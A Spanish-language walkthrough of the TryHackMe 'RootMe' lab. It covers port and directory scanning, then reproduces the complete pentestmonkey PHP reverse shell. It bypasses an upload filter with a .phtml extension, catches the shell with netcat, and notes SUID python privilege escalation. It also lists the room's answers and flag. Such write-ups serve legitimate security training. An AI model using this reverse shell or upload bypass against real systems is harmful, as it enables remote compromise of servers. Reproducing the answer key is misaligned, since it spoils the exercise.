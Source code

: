 Empezamos con la fase de reconocimiento:

``` bash
❯ sudo nmap -p- -Pn --min-rate 5000 10.10.31.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 16:57 CEST
Nmap scan report for 10.10.31.200
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

con esto ya podemos responder la primera pregunta de tryhackme:

**Scan the machine, how many ports are open?**
Respuesta: **2**

ecaneamos los servicios de los puertos en mas profundidad con nmap:

``` bash
❯ nmap -p22,80 -sCV 10.10.181.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 18:24 CEST
Nmap scan report for 10.10.181.31
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

y con este escaner contestamos mas preguntas de tryhackme:

**What version of Apache is running?** 
Respuesta: **2.4.29**
**What service is running on port 22?** 
Respuesta: **ssh**

hacemos una enumeracion de directorios con gobuster en el servicio http:

```bash
❯ gobuster dir -u http://10.10.181.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.181.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.181.31/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.181.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.181.31/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.181.31/panel/]
Progress: 30428 / 220561 (13.80%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 30478 / 220561 (13.82%)
===============================================================
Finished
===============================================================
```

obtenemos los directorios de :
/upload
/panel

este ultimo es la respuesta a la siguiente pregunta:

**What is the hidden directory?**
Respuesta: **/panel/**

en este directorio encontramos una funcionalidad para subir archivos por lo que vamos a intentar si subiendo una reverse shell en php nos lo interpreta:

![[Pasted image 20240513183813.png]]

una herramienta para obtener una reverse shell es [revshells](https://www.revshells.com/):

utilizamos la opcion de la reverse shell de pentestMonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP TARGET';
$port = NUM_PUERTO;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

cambiamos la ip target y num puerto para decuarlo a nuestro caso, con nano creamos el archivo php y lo subimos a la web:


![[Pasted image 20240513184423.png]]

no lo tendremos tan facil, intentaremos cambiar la extension php a ver si alguna cuela:
en el directorio uploads vemos nuestras subidas
![[Pasted image 20240513185250.png]]

tras unos intentos en mi caso me funciono la subida con la extension .phtml
nos ponemos a la escucha en net cat y clickamos la shell subida.

Con esto obtenemos acceso:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.181.31] 45778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:52:21 up 30 min,  0 users,  load average: 0.00, 0.00, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ 
$ whoami
www-data
$ hostname
rootme
$ 
```

hacemos una busqueda a los permisos SUID y encontramos que tenemos SUID para el binario python:
vamos a la web de gtfobins para ver como elevar los privilegios y aplicamos el metodo:

![[Pasted image 20240513190930.png]]

con esto obtenemos root.

por ultimo buscamos el archivo user.txt en el sistema y lo visualizamos para contestar a la ultima pregunta de tryhackme:
![[Pasted image 20240513191416.png]]

**user.txt**
Respuesta: **THM{y0u_g0t_a_sh3ll}**

